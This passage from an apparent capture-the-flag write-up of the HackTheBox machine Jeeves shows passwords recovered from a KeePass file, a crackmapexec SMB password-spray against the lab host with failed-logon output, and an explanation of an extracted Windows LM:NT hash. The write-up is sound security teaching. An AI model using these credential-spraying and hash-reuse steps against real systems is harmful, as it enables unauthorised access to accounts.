 ### Try Passwords

I’ll collect the ones that look like passwords into a list:

```

oxdf@hacky$ cat passwords 
12345
S1TjAtJHKsugh9oC4VZl
pwndyouall!
F7WhTrSFDKB6sxHU1cUn
lCEUnYPjNfIuPZSzOySA
Password

```

I’ll pass that to `crackmapexec` for the Administrator user, but none work:

```

oxdf@hacky$ crackmapexec smb 10.10.10.63 -u Administrator -p passwords 
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:12345 STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:S1TjAtJHKsugh9oC4VZl STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:pwndyouall! STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:F7WhTrSFDKB6sxHU1cUn STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:lCEUnYPjNfIuPZSzOySA STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:Password STATUS_LOGON_FAILURE

```

### Try Hash

#### LM and NT Hashes

The first entry in the KeePass, “Backup”, provided what looks like a Windows hash:

```

aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

```

Windows will show hashes in the format `LM Hash:NT Hash`. LM is the much less secure hash format used in legacy Windows systems. It’s typically not used, but kept around for backwards compatibility. Many times, the LM hash for the blank password is stored, which is ignored by Windows but allows the field not to be empty. `aad3b435b51404eeaad3b435b51404ee` is the LM hash of the empty password.

